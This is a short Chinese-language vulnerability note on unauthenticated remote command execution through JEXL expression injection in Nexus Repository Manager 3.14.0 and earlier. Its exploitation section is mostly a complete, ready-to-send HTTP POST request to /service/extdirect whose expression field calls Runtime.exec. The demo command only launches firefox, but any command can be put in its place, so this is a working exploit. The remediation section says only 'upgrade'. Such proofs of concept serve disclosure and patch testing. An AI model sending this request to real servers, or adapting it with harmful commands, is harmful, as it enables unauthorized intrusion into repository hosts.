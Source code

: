 ### 一 漏洞描述
Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。  
其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。

### 二 漏洞利用
需要maven仓库内必须要至少一个包，如果没有需要登陆后自行上传一个任意包

```
POST /service/extdirect HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 397
Connection: close

{"type": "rpc", "method": "previewAssets", "tid": 18, "data": [{"limit": 50, "sort": [{"property": "name", "direction": "ASC"}], "page": 1, "filter": [{"value": "*", "property": "repositoryName"}, {"value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"firefox\")", "property": "expression"}, {"value": "jexl", "property": "type"}], "start": 0}], "action": "coreui_Component"}
```

### 三 漏洞修复
升级
